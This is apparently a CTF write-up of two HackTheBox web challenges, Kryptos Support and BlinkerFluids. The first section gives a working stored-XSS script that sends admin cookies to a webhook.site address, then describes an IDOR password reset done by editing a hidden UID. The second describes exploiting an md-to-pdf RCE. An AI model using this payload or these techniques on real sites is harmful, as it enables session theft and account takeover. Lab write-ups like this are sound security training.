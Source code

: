 ## HackTheBox Cyber Apocalypse 2022 Intergalactic Chase

I’m back to HTB! This time with a new team which we called HackinKaNalang. Despite of our busy schedule we play this year Cyber Apocalypse CTF

-------------------------------------------------------
#### Web
- [Web 300 : Kryptos Support ](#kryptos_support)
- [Web 300 : BlinkerFluids ](#blinkerfluids)

------------------------------------------------------
## Kryptos_Support
![](web1/1.png)

During my enumeration we got a field which you can submit via form and another page which is login portal, 

![](web1/11.png)

I submit a test content and we got this:

![](web1/2.png)

The message above give me a hint of possible XSS attack that we able to get an Admin Cookies/Session, I sent a crafted xss payload to get the admin cookies using https://webhook.site. 

```
<script>
document.write('<img src="https://webhook.site/4805b428-e4e9-4754-9ff1-74f3b03e040d?c='+document.cookie+'" />');
</script>
```

Now i have the session cookies. 

![](web1/3.png)

I install a cookie editor to use the session came from the results of my XSS attack.

![](web1/4.png)

Then I redirected to the admin panel and I dont see any field or upload files, just the ticket that I submitted.

![](web1/44.png)

I check the links and I found a change password field. I tried to change the password of the current account and I notice that the account that I compromised is a moderator.

![](web1/5.png)

Im thinking that there is an Admin account for this application.
I enable the inspect element functions of browser to check a hidden fields, then I found a UID.

![](web1/6.png)

I decided to edit the value to 1 and supplied my chosen password and click submit, then I  got this message

![](web1/7.png)

I login using admin and my chosen password and automatically redirected to Home Page with a Flag

![](web1/flag.png)

Conclusion: We able to get the flag since the application are vulnerable to Persistent XSS and IDOR or known as Insicure Direct Object Reference
------------------------------------------------------


------------------------------------------------------
## BlinkerFluids
![](web2/1.png)

The challenge contains of web app and a source code.
The page contains of markdown editor and after submission it convert the text to pdf.

I review the source code and its node.js so basically i check the packages.json for possible vulnerable packages, and i notice the md-to-pdf package.

![](web2/2.png)

I search of possible exploit and i found RCE on snyk.io : https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880

![](web2/22.png)

I check the github issues and found interested comment

![](web2/23.png)

I created a RCE code and supplied it to the markdown editor and I click submit

![](web2/3.png)

I created another markdown to check if the rce2.txt is created, and it listed all the files which the rce2.txt has been created

![](web2/4.png)

I created a final markdown content to read the rce2.txt, then i got the flag.

![](web2/flag.png)

Conclusion: We able to get the flag by using package vulnerabilities, what i learn here is the importance of the source code review.
------------------------------------------------------